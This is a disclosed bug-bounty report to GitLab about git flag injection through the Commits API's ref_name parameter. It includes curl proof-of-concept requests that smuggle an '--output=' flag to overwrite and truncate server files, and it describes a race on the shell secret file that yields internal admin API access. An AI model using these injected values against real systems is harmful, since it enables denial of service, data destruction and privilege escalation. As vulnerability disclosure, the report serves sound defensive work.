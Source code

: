 # Git flag injection leading to file overwrite and potential remote code execution

## Report Details
- **Report ID**: 653125
- **URL**: https://hackerone.com/reports/653125
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-07-22T16:00:17.809Z
- **Disclosed**: 2019-12-19T00:24:21.076Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
The `ref_name` in the Commits API is not sanitized, allowing for a ref starting with `--` to be provided causing git to interpret it as a flag instead of as a ref.

If a `ref_name` such as `--output=/tmp/some_file` is used then the following command is executed by gitaly in `find_commits.go`:

`/opt/gitlab/embedded/bin/git --git-dir /var/opt/gitlab/git-data/repositories/@hashed/ef/2d/ef2d127de37b942baad06145e54b0c619a1f22327b2ebbcfbec78f5564afe39d.git log --format=format:%H --max-count=20 --follow --output=/tmp/some_file -- .`

followed by

`/opt/gitlab/embedded/bin/git --git-dir /var/opt/gitlab/git-data/repositories/@hashed/ef/2d/ef2d127de37b942baad06145e54b0c619a1f22327b2ebbcfbec78f5564afe39d.git rev-list --count --output=/tmp/some_file -- .`

This first writes the list of commits to the file, but then the `rev-list` command fails but not before truncating the file.

### Steps to reproduce

1. Create a repo and add a file
2. Use the commit api and pass in a `ref_name` such as `--output=/tmp/written`:

```
curl 'http://4290d4225642/api/v4/projects/5/repository/commits?path=.&ref_name=--output=/tmp/written'
```

3. See that the file has been created:

```
# ls -asl /tmp/written
0 -rw-r--r-- 1 git git 0 Jul 22 14:56 /tmp/written
```

### Impact

The bug allows for arbitrary files to be briefly replaced with a known commit (or a list) and then truncated be empty, easily causing denial of service by replacing important files.

One attack scenario I thought of would be to truncate `/var/opt/gitlab/gitlab-rails/etc/gitlab_shell_secret`, which almost worked but ended up failing due to `authenticate_by_gitlab_shell_token` checking the token with `unauthorized! unless Devise.secure_compare(secret_token, input)` which fails if either are blank.

This method could potentially still work if a large number of requests were spammed, waiting until the unicorn restarts (eg for an upgrade). So long as a `git log` happens last before the server shuts down then the file will stay with the commit and not get truncated. I was able to reproduce this with around 32 connections then restarting:

```
# gitlab-ctl restart unicorn
ok: run: unicorn: (pid 46755) 1s
root@4290d4225642:/var/opt/gitlab/gitlab-rails/etc# cat gitlab_shell_secret
████████
``

This then allows for use of the internal api:
```
curl -s 'http://4290d4225642/api/v4/internal/check?secret_token=██████████'
{"api_version":"v4","gitlab_version":"12.0.3","gitlab_rev":"08a51a9db93","redis":true}

curl -s 'http://4290d4225642/api/v4/internal/discover?secret_token=███&user_id=1'
{"id":1,"name":"Administrator","username":"root"}
```

### What is the current *bug* behavior?

The `ref_name` is not sanitized

### What is the expected *correct* behavior?

The `ref_name` should be sanitized to prevent it being used as git command flags.

#### Results of GitLab environment info

System information
System:
Current User:	git
Using RVM:	no
Ruby Version:	2.6.3p62
Gem Version:	2.7.9
Bundler Version:1.17.3
Rake Version:	12.3.2
Redis Version:	3.2.12
Git Version:	2.21.0
Sidekiq Version:5.2.7
Go Version:	unknown

GitLab information
Version:	12.0.3
Revision:	08a51a9db93
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	10.7
URL:		http://4290d4225642
HTTP Clone URL:	http://4290d4225642/some-group/some-project.git
SSH Clone URL:	git@4290d4225642:some-group/some-project.git
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers:

GitLab Shell
Version:	9.3.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git

## Impact

Truncating arbitrary files and potentially replacing them with known content. This can lead to denial of service, loss of important data, and potential privilege escalation.

## Attachments
No attachments
